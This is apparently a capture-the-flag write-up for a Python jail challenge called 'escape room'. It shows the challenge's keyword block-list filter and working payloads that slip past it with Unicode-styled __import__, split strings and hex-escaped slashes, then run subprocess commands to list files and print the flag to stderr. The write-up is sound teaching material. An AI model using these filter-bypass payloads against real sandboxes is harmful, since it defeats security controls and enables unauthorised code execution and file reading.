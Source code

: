 # escape room (1000 points)

![Alt text](./_images/image.png)

This challenge is a pyjail challenge wherein we need to jailbreak the python filters. 

From the source code, we can see that it filters the input on run. So we need to bypass it.

```python
import os, sys

def main():
  filter_list = ['sys', 'import', 'flag', 'open', '/', "sh", "bin", 'eval', 'exec', 'os', 'read', 'system']

  print("Please Input your Source code > ")
  user_data = ''
  while True:
    temp = input()
    if(temp == 'EOF'):
      break

    user_data += temp + '\n'

  print(user_data)
  for filter_str in filter_list:
    if filter_str in user_data:
      print("No hack plz!")
      exit(0)

  binary = compile(user_data, '<string>', 'exec')
  
  os.close(0)
  os.close(1)
  exec(binary)

if __name__ == '__main__':
  main()
```

We see that our input code will be compiled from this line of code:
```python
  binary = compile(user_data, '<string>', 'exec')
```
Our code should be in string format (UTF-8).

After compiling, file descriptor stdin and stdout will be closed.
```python
  os.close(0)
  os.close(1)
```

Then the compiled code will be executed.
```python
  exec(binary)
```

Since the `stdin` and `stdout` is closed we cannot print out the flag so  we can use `netcat` to bypass the file descriptor errors. But the only thing that is not closed yet is the `stderr`. So we can print the flag with it.

Here our first payload is to import the `subprocess` and `sys` module. Then we can use the `subprocess.Popen` to execute the `ls` command. Then we can read the output of the `ls` command and print it to the `stderr` of the `sys` module.
```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule = __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')('ls', stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```

![Alt text](./_images/image-1.png)

Our payload is working. How does it work? Well, back to the source code. There is no rule implemented in the compiler. So we can decorate our filtered text and will be read as a valid python code.

Our final payload:

```python
subprocess = __𝓲𝓶𝓹𝓸𝓻𝓽__('subprocess')
SSmodule =  __𝓲𝓶𝓹𝓸𝓻𝓽__('sy'+'s')

tmp = subprocess.__getattribute__('Po'+'pen')(['cat', 'home\x2fctf_user\x2ffl'+'ag'], stdout=subprocess.PIPE).communicate()[0]

print(tmp, file=SSmodule.stderr)
EOF
```

![Alt text](./_images/image-2.png)
